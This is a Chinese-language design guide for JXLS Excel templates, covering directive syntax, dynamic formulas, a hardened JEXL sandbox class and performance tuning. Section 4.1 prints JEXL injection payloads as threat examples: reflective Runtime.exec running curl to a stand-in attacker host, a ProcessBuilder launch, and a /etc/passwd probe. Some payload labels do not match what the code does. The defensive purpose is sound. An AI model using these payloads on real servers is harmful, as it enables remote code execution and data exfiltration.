


# 維度七 Part 1：JXLS 範本指令語法、動態公式與 JEXL 安全沙箱規範 (JXLS Directives, Dynamic Formulas & Security Sandbox Guide)

> 📌 本文件座落於 [`doc/design/jxls-template-export/01-jxls-template-syntax-and-engine.md`](file:///d:/桌面/ModuleWorkSpace/excel-module/doc/design/jxls-template-export/01-jxls-template-syntax-and-engine.md)，屬於「維度七：JXLS 宣告式範本定義模組」之【Part 1：範本指令語法、動態公式與 JEXL 安全沙箱規範】。  
> 詳述 JXLS 範本核心工作原理、常用批註指令語法（`jx:area`, `jx:each`, `jx:if`, `jx:image`）、動態公式自動平移計算機制，以及防範 CVE-2020-13973 / CVE-2022-26136 任意代碼執行 (RCE) 之 **JEXL 安全沙箱防護規範**。  
> 
> 🔗 **模組導讀與關聯文件**：  
> • 模組入口主文件：👉 [維度七：JXLS 宣告式範本定義與安全填充架構總覽 (jxls-template-export.md)](file:///d:/桌面/ModuleWorkSpace/excel-module/doc/design/jxls-template-export.md)  
> • 六角架構與整合：👉 [維度七 Part 2：六角形架構合約、範本註冊中心與 REST 表現層整合 (02-hexagonal-architecture-and-ports.md)](file:///d:/桌面/ModuleWorkSpace/excel-module/doc/design/jxls-template-export/02-hexagonal-architecture-and-ports.md)

---

## 1. JXLS 核心工作原理與執行流程 (Underlying Mechanism)

JXLS 是建立在 Apache POI 之上的進階範本填充框架。它將傳統「命令式逐格硬編碼」轉換為「宣告式範本驅動」，其底層處理管線如下：



### 1.1 為什麼堅持採用「儲存格批註 (Cell Comments)」定義指令？
JXLS 支援兩種標籤宣告方式：
1. **儲存格值文字標籤 (Text Markup)**：直接在儲存格填寫 `<jx:each ...>`。
   * *缺點*：破壞 Excel 預覽效果，視覺混亂，且容易因字元溢出影響欄寬計算。
2. **儲存格批註 (Cell Comments - 推薦企業級規範 ✅)**：在儲存格（例如 `A1`, `A4`）新增 Excel 原生註解 (Comment)，在註解內撰寫 `jx:area(...)` 或 `jx:each(...)`。
   * *優勢*：
     * **完全不影響範本外觀**：業務人員以 Excel 開啟範本時，儲存格內呈現乾淨的預設範例文字（如「物料名稱」、「1,000.00」），批註預設折疊。
     * **所見即所得 (WYSIWYG)**：設計師可自由調整字型、對齊、背景漸層與邊框，範本即最終成品。
     * **引擎處理完成自動清除**：JXLS 引擎在渲染輸出時會自動移除所有指令批註，下載的最終產物檔案不留任何痕跡。

---

## 2. 核心指令語法與實戰範例 (Core Directives & Practical Syntax)

### 2.1 `jx:area`：宣告範本評估根區域 (Root Area)
每個包含 JXLS 指令的工作表，**必須且只能在左上角第一個儲存格 (通常為 A1) 宣告一個 `jx:area`**，用以劃定 JXLS 引擎需要讀取與處理的矩形邊界。

* **語法**：
  ```text
  jx:area(lastCell="F10")
  ```
* **參數說明**：
  * `lastCell`：範本有效區域的右下角座標（如 `F10`）。超出此矩形範圍的儲存格將不會被引擎解析與處理。

---

### 2.2 `jx:each`：集合循環遍歷 (Collection Iteration)
用於遍歷 Java 集合或陣列，將單一列範本動態擴展為多筆資料列。

* **垂直向下擴展 (縱向報表，最常用)**：
  ```text
  jx:each(items="orders" var="order" lastCell="F4" direction="DOWN")
  ```
* **橫向向右擴展 (交叉報表 / 月份矩陣)**：
  ```text
  jx:each(items="months" var="month" lastCell="C4" direction="RIGHT")
  ```
* **常用參數全覽**：
  * `items`：傳入上下文中的集合變數名稱（如 `orders`）。
  * `var`：單筆迭代物件的變數名稱（如 `order`），在儲存格中以 `${order.orderNo}` 取值。
  * `lastCell`：此循環區塊的右下角邊界。若循環範本橫跨多列多欄（例如包含明細行與備註行），需精準指向右下角儲存格。
  * `direction`：擴展方向，預設為 `DOWN`（向下新增列），可指定為 `RIGHT`（向右新增欄）。
  * `varStatus`：迴圈狀態計數器變數名（如 `status`）：
    * `${status.index}`：從 0 開始的索引（0, 1, 2...）。
    * `${status.count}`：從 1 開始的項次編號（1, 2, 3...，適合用於序號欄）。
    * `${status.first}` / `${status.last}`：布林值，標識是否為首筆或末筆。
  * `multisheet`：**動態工作表分割清單**。若指定 `multisheet="departmentNames"`，引擎會依照清單元素自動複製出多個工作表，並將工作表標籤重新命名！

---

### 2.3 `jx:if`：條件顯隱與動態過濾 (Conditional Visibility)
依據表達式布林值決定是否輸出該區塊。若條件為 `false`，該區塊所在的列或儲存格將被自動收起（移除），下方資料自動遞補。

* **語法**：
  ```text
  jx:if(condition="order.discountAmount > 0" lastCell="E5")
  ```
* **典型場景**：
  * 當訂單有「折讓折扣」時才顯示折讓列，無折讓時直接略過。
  * 審批人簽核欄位：當 `auditStatus == 'APPROVED'` 時才顯示電子簽章圖片與簽核日期。

---

### 2.4 `jx:mergeCells`：動態儲存格合併 (Dynamic Cell Merging)
當資料列動態展開時，若某些欄位需要跨列或跨欄合併，可宣告 `jx:mergeCells`。

* **語法**：
  ```text
  jx:mergeCells(cols="1" rows="order.items.size()" minCols="1" minRows="1" lastCell="A4")
  ```
* **參數說明**：
  * `cols` / `rows`：合併的欄數與列數，支援動態表達式計算。
  * `lastCell`：合併目標起點邊界。

---

### 2.5 `jx:image`：動態圖片與企業 Logo 嵌入 (Image Insertion)
無需以 POI 繁複撰寫 `DrawingPatriarch`、`ClientAnchor` 與 `addPicture`，在批註宣告即可將二進位點陣圖渲染至指定區域。

* **語法**：
  ```text
  jx:image(src="companyLogoBytes" imageType="PNG" lastCell="B3")
  ```
* **參數說明**：
  * `src`：上下文中儲存圖片二進位資料的變數名稱（型別為 `byte[]` 或 `InputStream`）。
  * `imageType`：圖片格式，支援 `PNG`, `JPEG`, `EMF`, `WMF`。
  * `lastCell`：圖片所覆蓋的右下角儲存格座標（會自動依據儲存格大小縮放）。

---

## 3. 動態公式自適應平移計算 (Dynamic Formulas in Templates)

### 3.1 傳統靜態公式的痛點
若在 Excel 範本 `E5` 儲存格中直接寫入公式 `=SUM(E4:E4)`，當 `jx:each` 展開了 100 筆資料列後：
* 許多情況下 Excel 公式不會自動捕捉新插入的列，或是僅加總第一筆與最後一筆，導致計算邏輯損壞。
* 若涉及跨列相乘（例如 `D4 * E4`），傳統複製會導致相對參照偏移錯誤。

### 3.2 JXLS 動態公式語法：`${=...}`
JXLS 提供原生動態公式語法，以 `${=` 開頭並以 `}` 結尾：

```text
${=SUM(E4)}
```

#### 工作機制剖析：
1. **智慧範圍擴展 (Range Expansion)**：
   * 範本中 `E4` 座落於 `jx:each` 循環體內。
   * 當資料展開為 50 筆（由第 4 列擴展至第 53 列）時，JXLS 內建的 `FormulaProcessor` 透過座標映射樹，自動將 `${=SUM(E4)}` 解析重寫為原生 Excel 公式：
     ```excel
     =SUM(E4:E53)
     ```
2. **列內相乘動態對齊**：
   * 在明細列的「小計」儲存格填寫：
     ```text
     ${=C4*D4}
     ```
   * 展開後每一列會自動對齊該列列號：
     * 第 4 列：`=C4*D4`
     * 第 5 列：`=C5*D5`
     * 第 $n$ 列：`=Cn*Dn`
3. **完全保留 Excel 原生計算引擎**：
   * 產出的檔案包含真實的 Excel 公式，使用者下載後修改數量或單價，加總與小計將**即時自動重算**，符合會計與財務審計標準！

---

## 4. JEXL 表達式注入防護與安全沙箱規範 (Security Sandbox & CVE Defense)

> [!CAUTION] 
> **嚴重安全風險警示 (Critical Security Vulnerability)**  
> JXLS 預設依賴 **Apache Commons JEXL** 評估範本內的表達式 `${...}`。在未受防護的預設環境下，JEXL 具備強大的反射能力，攻擊者可透過在範本或動態變數中注入惡意表達式，直接取得伺服器控制權（遠端代碼執行 RCE，例如已知漏洞 CVE-2020-13973 與 CVE-2022-26136）。

### 4.1 惡意注入攻擊手法演示 (Exploitation Vectors)

若系統允許使用者或外部第三方上傳 Excel 範本，攻擊者可能在儲存格批註中植入以下 JEXL 惡意載荷：

```text
// 攻擊手法 1：透過反射直接取得 Runtime 並執行作業系統指令
${"".getClass().forName("java.lang.Runtime").getMethod("getRuntime").invoke(null).exec("curl http://attacker.com/leak")}

// 攻擊手法 2：透過 ProcessBuilder 執行反彈 Shell
${new("java.lang.ProcessBuilder", "cmd.exe", "/c", "calc.exe").start()}

// 攻擊手法 3：讀取伺服器敏感環境變數或私鑰
${new("java.io.File", "/etc/passwd").exists()}
```

### 4.2 縱深防禦架構：四重安全沙箱機制 (Four-Tier Defense)

為了確保模組在金融、政府與大型企業環境下的絕對安全性，本設計強制實施四重防禦：



### 4.3 基礎設施層安全沙箱配置程式碼實作

在 `infrastructure/engine/jxls/` 中，建立安全強化型的 `JexlExpressionEvaluator`：

```java
package com.example.demo.infrastructure.engine.jxls;

import org.apache.commons.jexl3.JexlBuilder;
import org.apache.commons.jexl3.JexlEngine;
import org.apache.commons.jexl3.introspection.JexlPermissions;
import org.jxls.expression.JexlExpressionEvaluator;

import java.math.BigDecimal;
import java.time.LocalDate;
import java.time.LocalDateTime;
import java.util.*;

/**
 * 企業級安全強化 JEXL 表達式評估器。
 * <p>
 * 針對 CVE-2020-13973 與 CVE-2022-26136 提供嚴格沙箱防護：
 * 1. 啟用 JexlPermissions.RESTRICTED 封鎖 Class, System, Runtime 等敏感類別反射。
 * 2. 嚴格限定僅允許基礎資料型別、集合與時間物件之安全白名單。
 * 3. 停用 new() 實例化與腳本執行功能。
 * </p>
 */
public final class SecureJexlExpressionEvaluator extends JexlExpressionEvaluator {

    /**
     * 構建具備沙箱防護的 JEXL 引擎實例。
     */
    public static JexlEngine createSecureJexlEngine() {
        // 定義授權白名單套件與類別
        JexlPermissions sandboxPermissions = JexlPermissions.RESTRICTED.compose(
            "java.lang.String",
            "java.lang.Number",
            "java.lang.Integer",
            "java.lang.Long",
            "java.lang.Double",
            "java.lang.Boolean",
            "java.math.BigDecimal",
            "java.time.LocalDate",
            "java.time.LocalDateTime",
            "java.util.List",
            "java.util.Map",
            "java.util.Set",
            "java.util.Collection",
            "com.example.demo.application.shared.*" // 僅開放應用層 DTO/Record
        );

        return new JexlBuilder()
            .permissions(sandboxPermissions) // 強制綁定沙箱權限
            .safe(true)                      // 遇空指標不崩潰，安全回傳 null
            .silent(false)                   // 遇到語法與安全違規顯式拋出例外以利排查
            .caching(512)                    // 表達式編譯 AST 快取，加速重複求值
            .features(new org.apache.commons.jexl3.JexlFeatures()
                .sideEffect(false)           // 嚴格禁止賦值副作用 (如 a = 123)
                .sideEffectGlobal(false)
                .structuredLiteral(true)
                .loops(false)                // 嚴格禁止 JEXL 表達式內部迴圈（迴圈由 jx:each 承擔）
                .newMethod(false))           // 嚴禁 new() 任意物件
            .create();
    }

    public SecureJexlExpressionEvaluator() {
        super(createSecureJexlEngine());
    }
}
```

---

## 5. 效能調優與記憶體控制 (Performance & Memory Tuning)

### 5.1 範本字節快取機制 (Template Byte-Array Cache)
解析 `.xlsx` 範本涉及解壓縮 ZIP 容器、XML 解析與 `XlsArea` 指令樹建構。在頻繁呼叫的高並發場景下，若每次匯出皆重新讀取磁碟，將造成顯著 I/O 延遲。

* **快取設計**：
  * 使用 `ConcurrentHashMap<String, byte[]>` 快取已載入之範本二進位檔案。
  * 提供 `refreshCache(templateKey)` 與 `clearAll()` SPI 接口，當維運人員熱更新範本檔案時，可透過管理 API 一鍵刷新，達成**零停機熱更新**。

### 5.2 引擎選擇：`PoiTransformer` vs `SxssfTransformer`
JXLS 支援兩種 POI 底層 Transformer：

1. **`PoiTransformer` (XSSF / 記憶體全量模式)**：
   * **適用規模**：資料量低於 10,000 列之各類精緻報表。
   * **特性**：支援最完整之 Excel 特性（包括條件式格式、複雜圖表連動、豐富富文字樣式）。
2. **`SxssfTransformer` (SXSSF / 滑動視窗串流模式)**：
   * **適用規模**：資料量介於 10,000 列至 50,000 列之較大資料量範本匯出。
   * **特性**：將超出記憶體列數的列即時沖刷至暫存 XML 檔案，維持常數級 Heap 佔用。需注意 SXSSF 模式下部分需要回溯修改上方儲存格的指令（如向右展開的交叉表）受到滑動視窗限制。

---

## 6. 小結

本規範確立了 JXLS 範本指令的標準寫法與安全邊界：
1. **批註優先**：所有指令一律宣告於儲存格批註內，確保範本具備 100% 所見即所得特性。
2. **安全沙箱**：強制導入 `SecureJexlExpressionEvaluator`，從根源封堵 JEXL RCE 攻擊面。
3. **公式自適應**：全量採用 `${=...}` 動態公式，賦予產出報表原生試算表加總靈動性。

